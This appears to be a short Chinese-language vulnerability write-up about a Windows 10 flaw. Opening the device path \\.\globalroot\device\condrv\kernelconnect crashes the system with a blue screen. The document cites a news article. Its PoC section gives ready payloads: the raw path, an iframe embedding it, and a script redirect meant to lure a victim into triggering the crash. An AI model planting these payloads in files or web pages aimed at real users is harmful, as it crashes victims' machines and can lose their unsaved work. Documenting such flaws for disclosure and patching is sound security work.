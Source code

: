 # Microsoft Windows 10 蓝屏死机漏洞

此漏洞影响 Microsoft windows 10 系统，攻击者可以通过发送带有 \\.\globalroot\device\condrv\kernelconnect 链接的文件，诱导受害者点击，利用成功可导致机器蓝屏死机。

**PoC：**

```bash
\\.\globalroot\device\condrv\kernelconnect
<iframe src="\\.\globalroot\device\condrv\kernelconnect"></iframe>
<scrpt>document.location = '\\\\.\\globalroot\\device\\condrv\\kernelconnect';</script>
```

ref:

https://www.bleepingcomputer.com/news/security/windows-10-bug-crashes-your-pc-when-you-access-this-location/